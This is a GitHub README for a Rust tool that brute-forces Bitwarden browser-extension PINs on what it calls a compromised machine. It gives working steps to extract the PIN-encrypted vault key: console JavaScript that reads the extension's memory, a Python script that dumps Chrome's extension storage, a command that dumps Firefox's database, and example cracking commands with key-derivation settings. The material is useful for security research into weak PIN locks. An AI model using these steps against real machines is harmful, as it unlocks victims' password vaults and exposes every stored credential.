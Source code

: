 # Bitwarden PIN Bruteforce

**Brute force any Bitwarden PIN from storage or in-memory**

<img align="right" width="300" src="https://github.com/JorianWoltjer/bitwarden-pin-bruteforce/assets/26067369/6f6cbfb1-793b-4eb9-b4be-6a10b72b7c69">

When the Bitwarden browser extension is installed on a compromised machine, it is often still locked and requires the master password to be entered to decrypt the data. There is an option however to lock the vault with a PIN instead of a password, either *always* or *only after the master password has been entered once*.

You can imagine that passwords must be less protected because the only thing required to unlock the vault now is a 4-digit number. It still works offline meaning that the decryption can always be replicated without limits to brute-force the PIN. While Bitwarden tries its best to make it slow to crack such a PIN, there are only 10000 options which can be done in a few minutes even for slow password hashes.

This tool implements such a brute force algorithm in a multi-threaded CLI tool with support for all kinds of hashes. Depending on the length of the PIN, and algorithms used, it can take from a handful of minutes to a few hours. But if you check the hashing configuration carefully and put it into this tool, you can be sure that the hash will be cracked sucessfully in every scenario.

## Installation

```Bash
cargo install bitwarden-pin
```

Or **download** and **extract** a pre-compiled binary from the [Releases](https://github.com/JorianWoltjer/bitwarden-pin-bruteforce/releases) page. 

## Example

[![Bitwarden PIN Bruteforce - Example](https://asciinema.org/a/xoLRMg0ATo3Y69EOlx3frri7X.svg)](https://asciinema.org/a/xoLRMg0ATo3Y69EOlx3frri7X?autoplay=1)

# Steps

## 1. Finding PIN-Encrypted User Key

The cracking technique will involve finding a config variable on disk or in memory. This depends on whether the checkbox was turned on and will be called either PERSISTANT for an unchecked box meaning the key is stored on disk, and TRANSIENT for a checked box meaning the key is stored in memory. ([source](https://github.com/bitwarden/clients/blob/8d528c2d4a73fadcc047da2448e02b324770e2f7/libs/common/src/services/vault-timeout/vault-timeout-settings.service.ts#L11-L16))

Disk storage is a common storage method that most extensions use. These can be read from specific files using tools made for the browser. Memory storage is simply an object that other parts of the extension can access and needs to be read interactively in a debugger.

### Google Chrome: In Memory (GUI)

1. Right-click the Bitwarden extension on the right of the address bar
2. Select **Inspect popup**:

![Chrome inspect extension popup in context menu](https://github.com/JorianWoltjer/bitwarden-pin-bruteforce/assets/26067369/608a49f2-f30e-4a3e-b9c9-4a4bc9a55a50)

3. In the new DevTools window, run the following JavaScript code in the Console:

```js
chrome.extension.getBackgroundPage().bitwardenMain.memoryStorageService.store.get("state").accounts
```

4. This will log an object containing all in-memory accounts with their properties. Collapse the properties with the arrows and look for `settings.pinKeyEncryptedUserKeyEphemeral`.

> [!TIP]
> In this same console you can also read the disk storage through the following API:
> 
> ```js
> chrome.extension.getBackgroundPage().bitwardenMain.stateService.accountDiskCache._value
> ```

### Firefox: In Memory (GUI)

 1. Put `about:debugging` into the address bar to visit the debug settings
 2. Click **This Firefox**
 3. On the Bitwarden Extension, click **Inspect**
 4. In the opened Developer Tools console, run the following JavaScript:

```js
bitwardenMain.memoryStorageService.store.get("state").accounts
```

Tip: In this same console you can also read the disk storage through the following API:

```js
bitwardenMain.stateService.accountDiskCache._value
```

### Google Chrome: On Disk

Check out https://bitwarden.com/help/data-storage/#on-your-local-machine for the locations where Browser extension data is stored for the target Operating System. On *Windows*, for example, this is at:  
`%LocalAppData%\Google\Chrome\User Data\Default\Local Extension Settings\nngceckbapebfimnlniiiahkandclblb`

Use the following Python script to read and dump the data:

```Python
import plyvel  # pip install plyvel
import json

BITWARDEN = r"C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nngceckbapebfimnlniiiahkandclblb"

db = plyvel.DB(BITWARDEN)

activeUserId = json.loads(db.get(b"activeUserId"))
account = json.loads(db.get(activeUserId.encode()))

json.dump(account, open("account.json", "w"), indent=4, sort_keys=True)
```

In the created `account.json` file, find `settings.pinKeyEncryptedUserKey`. If this is empty, it may be an older version that used to be stored at `settings.pinProtected.encrypted`.

### Firefox: On Disk

Check out https://bitwarden.com/help/data-storage/#on-your-local-machine for the locations where Browser extension data is stored for the target Operating System. On *Windows*, for example, this is at:  
`%AppData%\Mozilla\Firefox\Profiles\[profile]\storage\default\moz-extension+++[UUID]^userContextId=[integer]`

There are some variables here that are different per system. `[profile]` can be found by just trying all the folders. `[UUID]` can be found at `about:debugging` in the Firefox address bar. Then press This Firefox and look for Internal UUID under the Bitwarden extension. This should be enough to find the path.  
Then the database file itself is stored at `\idb\3647222921wleabcEoxlt-eengsairo.sqlite` appended to it.

The [moz-idb-edit](https://gitlab.com/ntninja/moz-idb-edit) tool can be used to dump all data in a JSON format into a file:

```bash
pip install git+https://gitlab.com/ntninja/moz-idb-edit.git
moz-idb-edit --dbpath "C:\Users\user\AppData\Roaming\Mozilla\Firefox\Profiles\lm6vr7sd.default-release-1619096024431\storage\default\moz-extension+++b546b99d-f948-44ea-91e1-333828d5ac30^userContextId=4294967295\idb\3647222921wleabcEoxlt-eengsairo.sqlite" > account.json
```

## 2. Gathering the Cryprography Settings

While there are some default cryptography settings that the user key and pin are encrypted with, these have changed over time and can also be changed in the settings, so they may be different. To be sure you can check the Key Derivation Function (`kdf`) settings. `null` values are replaced with their defaults:

```Shell
$ jq . account.json | grep "kdf"

    "kdfType": 0,             # 0 = pbkdf2, 1 = argon2
    "kdfIterations": 100000,  # default: pbkdf2=600000, argon2=3
    "kdfMemory": null,        # default: argon2=64 (*1024 = 65536)
    "kdfParallelism": null,   # default: argon2=4
```

Source: https://github.com/bitwarden/clients/blob/main/libs/common/src/platform/enums/kdf-type.enum.ts

## 3. Cracking the PIN

When you find all the parameters and either the permanent or ephemeral key, you can brute force the PIN locally without the UI locking you out. Some basic implementations of this exist for older defaults, but I decided to make my own tool where you can pass all these parameters to crack it in an optimized and multithreaded program (this repository). Here are some examples:

Default settings (pbkdf2 with 600000 iterations), and email with `-m` for salt:

```bash
bitwarden-pin -e "2.P6TpPPpMf5zkHUfTplnocw==|KZ7/pR8ft+LwcjfXs2ym9hmxE7DLIeA9Kl+IPwTVCwLmbpkFtYKPWvK53DEDDrVUeYvz/rPcl3MEH3wXl200HCsV5ZbGLGVU4bha5Aw20fk=|+Y46Za3Oo63XRbvqLFz5cVuvbqMvBqopD16+8HV83mk=" \
              -m "tenire3448@fashlend.com"
```

Set custom iterations with `-i` to old version, will be 6x faster to crack:

```bash
bitwarden-pin -e "..." 
              -m "tenire3448@fashlend.com" pbkdf2 -i 100000
```

Set algorithm to newer argon2:

```bash
bitwarden-pin -e "2.FA4aPsq/5jKajc8tGqYKaQ==|CO/t9f1EQ4O5LL6O1anBAd1/4Hb+l4I32UMlW+3O7CoxTRXlEuLK5xvDCFmeRCYmylt206B22roFXycaRG3Z9fnN1aVVbBJ59qfCDEGusHw=|vmWmAb9kfqPPljRNhDMe+fDlwwat8XN5BZSsMAH8p8w=" \
              -m "tenire3448@fashlend.com" argon2
```

Set custom kdfConfig values for argon2 with `-i` for iterations, and `-m` for memory in MiB:

```bash
bitwarden-pin -e "2.FA4aPsq/5jKajc8tGqYKaQ==|CO/t9f1EQ4O5LL6O1anBAd1/4Hb+l4I32UMlW+3O7CoxTRXlEuLK5xvDCFmeRCYmylt206B22roFXycaRG3Z9fnN1aVVbBJ59qfCDEGusHw=|vmWmAb9kfqPPljRNhDMe+fDlwwat8XN5BZSsMAH8p8w=" \
              -m "tenire3448@fashlend.com" argon2 -i 3 -m 64 -p 6
```

Crack PIN at 100000 iterations with 6 digits (will take a long time):

```bash
bitwarden-pin -e "..." 
              -m "tenire3448@fashlend.com" pbkdf2 -i 100000 -p 6
```
